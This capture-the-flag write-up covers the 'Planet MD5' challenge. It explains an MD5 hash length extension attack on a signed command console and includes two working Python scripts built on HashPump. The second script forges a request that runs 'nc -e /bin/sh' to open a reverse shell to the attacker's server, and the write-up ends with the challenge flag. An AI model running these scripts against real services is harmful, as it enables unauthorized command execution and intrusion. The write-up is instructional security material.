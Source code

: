 ### 0x01 Challenge:

**Description:**

>**Planet MD5**
>
>Escape the sandbox and read the flag.
>http://planet-md5.nn9ed.ka0labs.org.
>author: ka0labs

### 0x02 Write-up:

We start by visiting the URL provided.

![Branching](https://i.imgur.com/Ao2pJ8H.png)

As we can see, we have access to a console, which seems to only accept the execution of three commands:

```
telnetd> help
Help:
 - ls
 - id
 - uname
```

If we check the request made when executing a command, we can see that each one has an associated signature.

<img src="https://i.imgur.com/czT5ETO.png" width=800 height=200>

After hours of searching for exploitation options, hash break attempts and so on, I found this vulnerability.

---

**Hash Lenght Extension Attack**

In cryptography and computer security, a length extension attack is a type of attack where an attacker can use Hash(message1) and the length of message1 to calculate Hash(message1 ‖ message2) for an attacker-controlled message2, without needing to know the content of message1. Algorithms like MD5, SHA-1, and SHA-2 that are based on the Merkle–Damgård construction are susceptible to this kind of attack.

---

It completely matched what we needed to do, so I looked for some tool and set about it. In this case I used [Hashpump](https://github.com/bwall/HashPump).

The first use we are going to give the tool is to achieve the key length. For this case I did the following script:

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '|ls' -k "

for x in range(1, 60):
    # Append the key length to the command and get the output from execution
    ncmd = cmd + str(x)
    out = check_output(ncmd, shell=True).split("\n")

    newParams = out[1].strip()
    newSig = out[0].strip()

    # URL encode the padding
    m = re.search(r"id(.+?)ls", newParams)
    items = m.group(1).split('\\')
    for item in items:
        newParams = newParams.replace('\\x'+item, '%'+item)

    viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

    r = requests.get(viewUrl)
    if r.text.strip() == 'index.php':
        print 'New URL params: ' + newParams
        print 'New full URL:   ' + viewUrl
        print 'Key length:     ' + str(x) + ' -> ' + r.text.strip()
```

The use of it is to let us know when we have managed to execute the 'ls' command attached to the 'id' command itself. So when it finds an 'index.php' file it notifies us with the complete URL and the key length as we see in the following image.

![Branching](https://i.imgur.com/8rmdyhj.png)

Visiting the full URL we see the 'ls' command execution achieved.

![Branching](https://i.imgur.com/bodn1pZ.png)

Seeing that it is vulnerable and knowing the length of the key, I modify the script to throw a reverse shell on a server.

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '| nc -e /bin/sh $SERVER_IP 7778' -k "

# Append the key length to the command and get the output from execution
x = 15
ncmd = cmd + str(x)
out = check_output(ncmd, shell=True).split("\n")

newParams = out[1].strip()
newSig = out[0].strip()

# URL encode the padding
m = re.search(r"id(.+?)7778", newParams)
items = m.group(1).split('\\')
for item in items:
    newParams = newParams.replace('\\x'+item, '%'+item)

viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

r = requests.get(viewUrl)
print 'New URL params: ' + newParams
print 'New full URL:   ' + viewUrl
print 'Key length:     ' + str(x)
```

We execute it, we visit the complete URL that it gives us and we verify that we receive reverse shell on our server.

![Branching](https://i.imgur.com/vCWLrl6.png)

![Branching](https://i.imgur.com/pbgwWff.png)

Finally we have shell on the server. It would only be to find the flag and that's it.

![Branching](https://i.imgur.com/waZW6iu.png)

`Flag: nn9ed{j3t_ext3nd3r_4d}`
